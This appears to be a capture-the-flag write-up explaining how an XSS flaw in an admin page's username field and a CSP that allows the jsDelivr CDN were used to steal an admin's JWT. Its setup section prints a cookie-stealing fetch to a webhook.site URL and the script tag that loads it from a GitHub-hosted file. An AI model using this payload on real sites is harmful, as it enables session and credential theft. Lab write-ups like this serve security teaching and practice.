

# XSS > CDN Abuse

## website



## Description

Anytime we see "this will be reviewed" "stored for review" Admin will review" we can think XSS attack.
Also, the Docker file installs google chrome, which potentialy indicates client-side exploit.
After reviewing the source code, we can see that on the admin page. We notice the username field is vulnerable to HTML injection because it is piping the user's input to 'safe' without any sanitization.
We can also see that the flag is inside of the JSON Web Token(JWT). So we need to get the JWT in order to get the flag. 
After inspecting a request, we also see that a CDN is being used in the Content Security Policy.
I used csp-evaluator to analyze the weaknesses of this content security policy(CSP):

Using this CDN, we can pull repositories from GitHub.. Any repository.. Leaving a hole in the CSP for out XSS attack.
So I setup a webhook at webhook.site
Then I create a repository on my GitHub with the payload to get the Admin's JWT and sent it to my webhook.
Once I received the request to my webhook, i was able to base64 decoded the token and get the flag.

## Set Up

1. Burpsuite Repeater/collaborator(Testing).
2. Grab webhook.site URL to send the token.
3. Javacript file hosted on GitHub.
   ```javascript
   fetch('https://webhook.site/<random>?cookie=' + document.cookie);
4. The final XSS payload looked like this:
   ```javascript
   <script src="https://cdn.jsdelivr.net/gh/rosepwns/test/test.js"</script>

## More Information

[XSS Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
